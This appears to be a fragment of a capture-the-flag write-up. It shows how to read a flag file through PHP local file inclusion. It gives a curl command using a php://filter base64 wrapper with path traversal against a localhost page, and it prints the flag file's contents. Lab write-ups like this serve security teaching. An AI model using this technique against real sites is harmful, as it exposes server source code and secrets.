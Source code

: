 Use php filter base64-encode to read flag.php file in base64 encoding format, then decode it to have the flag:

```bash
curl http://localhost:8000/pages/page.php?f=php://filter/convert.base64-encode/resource=../somerandomtext/flag.php | base64 -d
```

And the `flag.php` file have the following code:

```php
<?php
    $flag = "flag_bb4e38d4f760c434ee58cfaf9d503437";
?>
```

